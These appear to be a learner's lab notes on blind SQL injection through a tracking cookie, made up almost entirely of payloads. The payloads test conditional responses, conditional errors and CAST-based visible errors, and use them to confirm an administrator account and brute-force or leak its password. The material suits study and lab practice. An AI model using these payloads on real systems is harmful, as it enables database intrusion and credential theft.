 Conditional Responses test:

```
Welcome message appears if rows are returned:

TrackingId=Wh80UOwUs6kA9B53'AND+1=2--+- (Welcome Back message disappears)
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
Check passw length:
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
Brute force password:
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
...
You can also cluster bomb it
```

Conditional error test:

```
' -> error
'' -> no error
'||(SELECT '')||' -> error
'||(SELECT '' FROM dual)||' -> no error (Oracle)
'||(SELECT '' FROM not-a-real-table)||' -> error
Check if a database exists (users in this case):
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'

Test if you can controll errors, if the condition is true, show error:
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' -> error
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' -> no error

test if user administrator exists:
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' -> error recieved, therefore there is a user administrator

password length:
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

password brute force cluster bomb first number and a-z:
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

```

Visible errors tests:

```
Use CAST to check a query against a boolean:

' -> error with SQL query displayed
'-- -> no error
' AND CAST((SELECT 1) AS int)-- -> AND must be boolean
' AND 1=CAST((SELECT 1) AS int)-- -> no error
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- -> username administrator displayed
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- -> password for admin displayed
```
